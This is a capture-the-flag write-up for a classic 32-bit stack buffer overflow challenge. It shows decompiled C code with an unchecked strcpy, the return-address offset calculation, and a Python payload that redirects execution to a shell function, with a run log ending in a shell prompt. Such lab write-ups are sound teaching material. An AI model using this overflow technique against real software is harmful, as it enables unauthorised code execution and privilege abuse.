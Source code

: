 ### S0lv3d by H4yicl3

First i download source here :

then i use IDA to analysis the code
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax@2
  __uid_t v4; // ST1C_4@3

  if ( argc == 2 )
  {
    v4 = geteuid();
    setresuid(v4, v4, v4);
    printf("shell function = %p\n", shell);			//We can know the address of shell here
    vuln((char *)argv[1]);							//vuln function
    result = 0;
  }
  else
  {
    puts("Usage: buffer_overflow [str]");
    result = 1;
  }
  return result;
}
```

the vuln() function
```c
int __cdecl vuln(char *src)
{
  char dest; // [sp+10h] [bp-48h]@1					//<------- overflow dest to modify return address

  strcpy(&dest, src);
  return dump_stack(&dest, 21, &src);
}
```

find the offset between dest and return
```
-00000048 dest            db ?
+00000004  r              db 4 dup(?)
.text:080485F8 shell           proc near               ; DATA XREF: main+4Co
```

offset = 0x48(dest) + 0x4(return) =0x4c = 76
and the address of shell is 0x080485F8
the python script to change v3 become 1 look like
```python
padding ="A"*76
padding +="\xf8\x85\x04\x08"
print padding
```

try run it
```
./overflow3 $(python overflow3.py)
shell function = 0x80485f8
Stack dump:
0xffac8440: 0xffac9800 (first argument)
0xffac843c: 0x080485f8 (saved eip)
0xffac8438: 0x41414141 (saved ebp)
0xffac8434: 0x41414141
0xffac8430: 0x41414141
0xffac842c: 0x41414141
0xffac8428: 0x41414141
0xffac8424: 0x41414141
0xffac8420: 0x41414141
0xffac841c: 0x41414141
0xffac8418: 0x41414141
0xffac8414: 0x41414141
0xffac8410: 0x41414141
0xffac840c: 0x41414141
0xffac8408: 0x41414141
0xffac8404: 0x41414141
0xffac8400: 0x41414141
0xffac83fc: 0x41414141
0xffac83f8: 0x41414141
0xffac83f4: 0x41414141
0xffac83f0: 0x41414141 (beginning of buffer)
$ whoami
hayicle
$ 
```

Well done!!